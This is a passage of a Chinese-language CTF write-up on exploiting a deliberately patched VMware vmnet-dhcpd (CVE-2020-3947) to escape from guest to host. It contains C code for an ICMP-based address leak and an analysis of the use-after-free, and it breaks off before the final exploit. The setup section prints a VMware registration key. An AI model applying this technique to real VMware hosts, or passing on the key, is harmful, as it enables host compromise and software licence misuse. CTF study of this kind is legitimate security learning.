官方题解：[选手看了都说想打出题人 | AntCTF x D^3CTF [Real_VMPWN] Writeup](https://mp.weixin.qq.com/s/8nb5Y0CqMPT9cXkt1VpWTw)

# 题目信息

```text
宿主机安装了 vmware (安装包见附件)，并使用附件中的 vmnet-dhcpd 替换了 /usr/bin/vmnet-dhcpd
宿主机安装了一台用 vmware 运行的客户机 ，选手连接环境后，将得到客户机的 shell

在客户机利用漏洞使得宿主机执行 /gflag 后，flag 会出现在客户机上的 /flag 

同一时间，只能有一个队伍挑战题目，且每个队伍仅有两次机会

建议使用命令 "socat file:`tty`,raw,echo=0 tcp:IP:PORT"，这将获得客户机的一个 tty 交互式 shell

The host has installed vmware (see attachment for the installation package), and replaced /usr/bin/vmnet-dhcpd with vmnet-dhcpd in the attachment
The host computer installs a client machine running with vmware. After connecting to the environment, the contestant will get the client's shell

At the same time, only one team can try the challenge, and each team has only two opportunities.

It is recommended to use the command "socat file:`tty`,raw,echo=0 tcp:IP:PORT", which will get a tty shell of the client.

After exploiting the vulnerability to execute "/gflag" on the host, the "/flag" file on the client is the flag
```

* 宿主机/虚拟机OS：Ubuntu18.04（kernel 4.15.0-213-generic）

* vmware安装包：[VMware-Workstation-Full-16.1.0-17198959.x86_64.bundle](https://github.com/201853910/VMwareWorkstation/releases/download/16.0/VMware-workstation-full-16.1.0-17198959.x86_64.bundle)
  
  （注册码：UV3TU-4AGD0-080WP-PPPNC-WARUA）
  
* 赛题源码：https://drive.google.com/file/d/1Ntk-vB5nzJ0S3qCPT-EOxL_ZiP2g3ChG/view

搭建复现环境时，安装完bundle之后需要暂停`vmware.service`再替换`vmnet-dhcpd`，题目中还给了libc和ld，也一起替换了：

```bash
# 关闭vmware服务
$ sudo systemctl status vmware.service 
● vmware.service - LSB: This service starts and stops VMware services
   Loaded: loaded (/etc/init.d/vmware; generated)
   Active: active (running) since Thu 2025-07-17 01:00:10 PDT; 3min 59s ago
     Docs: man:systemd-sysv-generator(8)
  Process: 1228 ExecStart=/etc/init.d/vmware start (code=exited, status=0/SUCCESS)
    Tasks: 6 (limit: 9462)
   CGroup: /system.slice/vmware.service
           ├─1425 /usr/bin/vmnet-bridge -s 6 -d /var/run/vmnet-bridge-0.pid -n 0
           ├─1630 /usr/bin/vmnet-natd -s 6 -m /etc/vmware/vmnet8/nat.mac -c /etc/vmware/vmnet8/nat/nat.conf
           ├─1632 /usr/bin/vmnet-netifup -s 6 -d /var/run/vmnet-netifup-vmnet8.pid /dev/vmnet8 vmnet8
           ├─1646 /usr/bin/vmnet-dhcpd -s 6 -cf /etc/vmware/vmnet8/dhcpd/dhcpd.conf -lf /etc/vmware/vmnet8/dhcpd
           ├─1665 /usr/bin/vmnet-netifup -s 6 -d /var/run/vmnet-netifup-vmnet1.pid /dev/vmnet1 vmnet1
           └─1677 /usr/bin/vmnet-dhcpd -s 6 -cf /etc/vmware/vmnet1/dhcpd/dhcpd.conf -lf /etc/vmware/vmnet1/dhcpd
...
$ sudo systemctl stop vmware.service 

# 替换 vmnet-dhcpd
$ sudo cp ./vmnet-dhcpd-patched /usr/bin/vmnet-dhcpd

# 替换libc和ld
$ ln -sf `pwd`/libc-2.27.so `pwd`/libc.so.6
$ sudo patchelf --set-rpath `pwd` /usr/bin/vmnet-dhcpd
$ sudo patchelf --set-interpreter `pwd`/ld-2.27.so /usr/bin/vmnet-dhcpd
$ ldd /usr/bin/vmnet-dhcpd
	linux-vdso.so.1 (0x00007ffc07f76000)
	librt.so.1 => /lib/x86_64-linux-gnu/librt.so.1 (0x00007fe1c7e18000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007fe1c7c14000)
	libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007fe1c79f5000)
	libc.so.6 => /home/ctf/Desktop/AntCTFxD3CTF2022-Real_VMPWN/libc.so.6 (0x00007fe1c7604000)
	/home/ctf/Desktop/AntCTFxD3CTF2022-Real_VMPWN/ld-2.27.so => /lib64/ld-linux-x86-64.so.2 (0x00007fe1c8335000)

# 启动vmware服务
$ sudo systemctl start vmware.service
```

# 题目分析

## patch对比

一共有2处patch。

第一处是将两个栈上变量初始化去掉了：



猜测可以用`icmp_echorequest`来进行信息泄露：



第二处是把`jz 0x1C348`去掉了，把`jnz 0x1BDB5`改成了`jmp 0x1BDB5`，两个分支就被没了，这个函数和lease有关：



通过搜索“CVE vmware vmnet-dhcpd”这几个关键词可以搜到CVE-2020-3947，可以参考[CVE-2020-3947：VMware DHCP组件UAF漏洞分析](https://www.anquanke.com/post/id/202431)。


## 逆向及符号恢复

通过程序中的字符串“For info, please visit http://www.isc.org/dhcp-contrib.html”我们可以找到[ISC DHCP](https://www.isc.org/dhcp/)，且能下载到源码（有两个版本）：

* [DHCP-4.4.3-P1.tar.gz](https://downloads.isc.org/isc/dhcp/4.4.3-P1/dhcp-4.4.3-P1.tar.gz)
* [DHCP-4.1-ESV-R16-P2.tar.gz](https://downloads.isc.org/isc/dhcp/4.1-ESV-R16-P2/dhcp-4.1-ESV-R16-P2.tar.gz)

手动编译一个dhcp：

```bash
tar -xvf ./dhcp-4.4.3-P1.tar.gz
cd dhcp-4.4.3-P1/
./configure --prefix=`pwd`/_install --enable-binary-leases --enable-dhcpv4o6
make -j4
make install
# _install/sbin/dhcpd
```

将dhcpd二进制文件用IDA打开导出C头文件，再将C头文件导入vmnet-dhcpd的IDA中。

> [!error]
>
> 在导入C头文件时可能会遇到一系列报错，如：
>
> * 枚举类型定义加了`xx::`前缀而无法识别
> * 含自身结构体指针的结构体定义有问题
> * `typedef`定义的别名有问题
> * 重复定义
> * ……
>
> 总之按output窗口的错误提示尝试修改就行，但可能要重复导入很多很多次才能成功。


# DHCP前置知识

## DHCP数据包结构

Dynamic Host Configuration Protocol（DHCP，动态主机配置协议）是通过DHCP客户端域服务器之间交换DHCP消息来动态分配和管理IP地址的一种协议。DHCP消息包括`DHCPDISCOVER`、`DHCPOFFER`、`DHCPRELEASE`等，所有DHCP消息开头都为如下通用头结构：



DHCP消息的中的`Options`字段中包含一系列`option`字段，`option`字段的结构如下：



> 完整的DHCP选项参考[Dynamic Host Configuration Protocol (DHCP) and Bootstrap Protocol (BOOTP) Parameters](http://www.iana.org/assignments/bootp-dhcp-parameters)。

`optionCode`字段用来定义选项类型。DHCP Message Type以及Client Identifier选项对应的`optionCode`值分别为`0x35`及`0x3d`。`Options`字段以`0xff`一个字节作为结束。

DHCP消息中必须包含1个DHCP Message Type选项。对于DHCP Message Type，对应的`optionLength`字段值为`1`。`optionData`字段对应具体的消息类型，值为`1`代表`DHCPDISCOVER`消息，值为`3`代表`DHCPREQUEST`消息，值为`7`代表`DHCPRELEASE`消息。

> 完整的DHCP Message Type选项类型及内容参考[DHCP Message Type 53 Values](https://www.iana.org/assignments/bootp-dhcp-parameters/bootp-dhcp-parameters.xhtml#message-type-53)。


## DHCP报文种类



## DHCP交互流程

### 抓包分析

`dhclient`命令可以用于为网卡申请和释放租约，可以对该过程用wireshark抓包进行分析：

```bash
# 请求租约
sudo dhclient ens33
# 释放租约
sudo dhclient -r ens33
```

抓包结果参考[附件](./dhcp.pcapng)。

### 分配过程

1. DHCP client：广播**DHCP Discover**报文，请求分配IP地址
2. DHCP server：收到client请求后，向预分配的IP地址发送**ICMP ECHO（ping）**报文测试该IP是否被占用：
   * 如果ICMP Echo（ping）报文无人响应，则证明该IP地址可用，向client发送**DHCP Offer**响应报文，附带租约时间，子网地址等信息；
   * 如果ICMP Echo（ping）报文被响应，则证明该IP地址已被分配，广播**DHCP NAK**报文，并重新开始分配过程
     * 其他server收到后重新开始分配过程；
     * client收到后重新开始请求过程。
3. DHCP client：可能会收到多个server的DHCP Offer响应报文，选择一个最先接收到的报文启用，广播**DHCP Request**报文，附带启用的ip地址信息
4. DHCP server：收到client的DHCP Request报文，如果该IP地址可分配，则向client发送**DHCP ACK**报文确认，附带IP地址、子网掩码等信息；如果不可分配，则广播发送**DHCP Decline**报文，并重新开始请求过程
   * 其他server收到DHCP Decline报文，会将该IP标记为不可分配，并重新开始分配过程；
   * client收到DHCP Decline报文重新开始请求过程。



具体报文字段内容参考[附件](./dhcp.pcapng)。

### 续租流程

如果client地址租约时间到达50%，那么client就会向server发送DHCP Request报文续租。
server收到报文，可能

* 回复DHCP ACK报文并更新租约时间；
* 没有回复，等祖约时间到达87.5%时，client再次向server发送DHCP Request报文。
  server收到报文，可能
  * 回复DHCP ACK更新租约时间；
  * 没有回复，等租约到期时，client向server发送DHCP Release报文，释放地址。

### 解除租约

client向server发送DHCP Release报文，解除租约。



# 解题过程

## leak

在分析时我们注意到，`icmp_echorequest`函数中有两个初始化变量为0的地方被patch调了。根据dhcp协议，我们发送DHCP DISCOVER报文时，服务器会向用户发送icmp echo request（ping）报文，从而完成泄露。



在调试过程中发现：

* 如果加上Parameter Request List选项，可以泄露出libc地址：
  
* 不加Parameter Request List选项可以泄露出栈和程序地址：
  

此外，在重启网卡使可能栈地址的泄露不是很稳定，要多发送几次才能成功。

顺便可以获取一下dhcp server的mac和ip地址。

```c {hide=true}
uint64_t libc_base = 0,
         elf_base = 0,
         stack_addr = 0;

void leak() {
    uint8_t *buf = NULL;
    size_t buf_len = 0;

    buf = malloc(0x1000);

    do {
        sleep(2);
        xid = random();
        memset(buf, 0, 0x1000);
        create_dhcp_discover_packet(buf, &buf_len, src_addr_in, 0);
        send_raw_pkt(buf, buf_len);

        memset(buf, 0, 0x1000);
        do {
            buf_len = receive_raw_pkt(buf, 0x1000);
        } while (!is_icmp_echorequest(buf, buf_len));
        hex_dump64(buf, buf_len);
        stack_addr = *(uint64_t *)(buf + 0x32);
        elf_base = *(uint64_t *)(buf + 0x3a) - 0x1c168;
    } while (stack_addr < 0x7f0000000000);

    sleep(2);
    xid = random();
    memset(buf, 0, 0x1000);
    create_dhcp_discover_packet(buf, &buf_len, src_addr_in, 1);
    send_raw_pkt(buf, buf_len);

    memset(buf, 0, 0x1000);
    do {
        buf_len = receive_raw_pkt(buf, 0x1000);
    } while (!is_icmp_echorequest(buf, buf_len));
    hex_dump64(buf, buf_len);
    libc_base = *(uint64_t *)(buf + 0x3a) - 0x9a0b1;

    server_addr_in.sin_addr.s_addr = *(uint32_t *)(buf + 0x1a);
    printf("[*] Server IP Address: %s\n", inet_ntoa(server_addr_in.sin_addr));
    memcpy(server_mac, buf + 6, ETH_ALEN);
    printf("[*] Server MAC Address: %02x:%02x:%02x:%02x:%02x:%02x\n",
           server_mac[0], server_mac[1], server_mac[2],
           server_mac[3], server_mac[4], server_mac[5]);
    
    printf("[+] leak libc_base: %p\n", (void *)libc_base);
    printf("[+] leak elf_base: %p\n", (void *)elf_base);
    printf("[+] leak stack_addr: %p\n", (void *)stack_addr);
    free(buf);
}
```


## exploit

CVE-2020-3947的漏洞出现在`supersede_lease`函数，漏洞描述为：

> 当服务端重复收到`DHCPDISCOVER`消息和`DHCPRELEASE`消息时，源和目的`lease`结构中对应的`uid`字段实际上指向的是同一个内存位置，而`supersede_lease`函数并没有检查这种情况。因此，当函数释放源`lease`结构`uid`字段指向的内存时，目的`lease`结构的`uid`指针就会变成无效指针。

根据patch所在函数包含的字符串“Lease conflict at %s”可以确定patch的函数就是`supersede_lease`。

lease结构体的改动比较大，但重点只需要关注其中`uid`相关的几个变量即可，参考dhcp源码和逆向，再结合gdb调试大概恢复了一下结构体：

```c
struct __attribute__((aligned(8))) struct_lease
{
  struct_lease *next;
  struct_lease *prev;
  __int64 field_10;
  struct_lease *chain;
  __int64 field_20;
  int ip_len;
  int ip_addr;
  __int64 field_30;
  __int64 field_38;
  time_t starts;
  time_t ends;
  time_t sorttime;
  const void *uid;
  _DWORD uid_len;
  _DWORD uid_max;
  char uid_buf[32];
  __int64 field_88;
  __int64 hostname;
  __int64 field_98;
  __int64 field_A0;
  __int64 field_A8;
  char htype;
  char hlen;
  char hbuf[16];
  _BYTE byteC2;
  _BYTE byteC3;
  _DWORD flags;
  __int64 state;
};
```

### DHCPREQUEST

调试过程中发现，发送DHCP REQUEST报文时，lease结构体中uid相关的几个字段始终为0，后来发现uid是需要用Client Identifier选项进行设置的，参考RFC文档[9.14. Client-identifier](https://www.rfc-editor.org/rfc/rfc2132.html#section-9.14)：

```text
   This option is used by DHCP clients to specify their unique
   identifier.  DHCP servers use this value to index their database of
   address bindings.  This value is expected to be unique for all
   clients in an administrative domain.

   Identifiers SHOULD be treated as opaque objects by DHCP servers.

   The client identifier MAY consist of type-value pairs similar to the
   'htype'/'chaddr' fields defined in [3]. For instance, it MAY consist
   of a hardware type and hardware address. In this case the type field
   SHOULD be one of the ARP hardware types defined in STD2 [22].  A
   hardware type of 0 (zero) should be used when the value field
   contains an identifier other than a hardware address (e.g. a fully
   qualified domain name).

   For correct identification of clients, each client's client-
   identifier MUST be unique among the client-identifiers used on the
   subnet to which the client is attached.  Vendors and system
   administrators are responsible for choosing client-identifiers that
   meet this requirement for uniqueness.

   The code for this option is 61, and its minimum length is 2.

   Code   Len   Type  Client-Identifier
   +-----+-----+-----+-----+-----+---
   |  61 |  n  |  t1 |  i1 |  i2 | ...
   +-----+-----+-----+-----+-----+---
```

所以只需要设置**type为0**即可自己设置字符串作为uid标识，此外**uid_len必须大于0x20**才能申请堆块存储uid字符串，否则uid字符串将存入结构体内部的uid_buf。

### DHCPINFORM

`uid`在函数`ack_lease_1EC70`中被申请，`ack_lease_1EC70`有几处调用：



参考dhcp源码可知，`ack_lease_1EC70`的第3个参数`offer`标识了是回复哪种报文，其中`dhcpdiscover_20990`回复`DHCPOFFER(2)`，`dhcpinform_1FDA0`和`dhcprequest_20C20`返回`DHCPACK(5)`。

而`ack_lease_1EC70`中，只要`uid_len>0x20`就会调用malloc为`uid`申请内存并写入内容，但只有`offer==5`且`old_lease->flags & 1 != 0`时才会调用`supersede_lease_1BD60`函数调用free释放`old_lease->uid`。在`dhcpinform_1FDA0`中调用`ack_lease_1EC70`时传入的`old_lease->flags |= 0x21`，因此发送DHCPINFORM报文可以申请任意大小的chunk，写入内容可控，且不会被释放。

### DHCPRELEASE

`supersede_lease_1BD60`还在`release_lease_1CEB0`函数被调用，并在调用前设置`new_lease.ends = timer`，此时不会调用malloc申请新的uid，只会调用free释放原来的uid。但这里的`new_lease`其实是`old_lease`的拷贝，最后释放`old_lease->uid`之后，又将`new_lease->uid`赋值给了`old_lease->uid`，所以这里存在一个UAF漏洞：

